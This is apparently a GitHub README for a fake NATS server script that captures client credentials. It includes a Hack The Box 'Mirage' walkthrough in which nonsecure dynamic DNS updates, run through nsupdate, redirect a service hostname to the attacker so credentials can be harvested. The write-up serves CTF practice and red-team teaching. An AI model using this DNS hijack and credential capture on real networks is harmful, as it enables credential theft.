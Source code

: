 # 🛰️ Fake NATS Server

`fake-nats.py` is a lightweight fake NATS server written in Python. It listens on the default NATS port and emulates a legitimate NATS server to capture client authentication attempts.

Perfect for **CTFs**, **red team simulations**, **reverse engineering**, or **honeypot setups**.

---

## ⚙️ Features

- Listens on `0.0.0.0:4222` (default NATS port)
- Sends a valid NATS `INFO` banner on connection
- Captures and prints incoming client payloads (e.g., credentials)

---

## 🛠️ Requirements

- Python 3.x

---

## 🚀 Usage

```bash
python3 fake-nats.py
```
---

## 🎯 Case Study: HTB Mirage – Credential Harvesting via Fake NATS

In the Hack The Box machine **"Mirage"**, a NATS server is accessible at `nats-svc.mirage.htb:4222`. The target service expects clients to authenticate using a username and password.

### 🎯 Objective

Harvest NATS client credentials by deploying a fake server and luring the legitimate client to connect to us instead of the real `nats-svc.mirage.htb`.

---

### 🧪 Attack Path

#### 1. **Exploit Dynamic DNS (nonsecure)**

The Domain Controller supports **Secure and Nonsecure** updates. We exploit this using a crafted input for `nsupdate` to overwrite the A record for `nats-svc.mirage.htb`.

Example update file:

```bash
# nsupdate-nats.txt
server <MIRAGE IP>
zone mirage.htb
update add nats-svc.mirage.htb 15 A <YOUR-IP>
send
```
then just use nsupdate:
```bash
nsupdate -v nsupdate-nats.txt
```

More details on: mirage-exploit.py
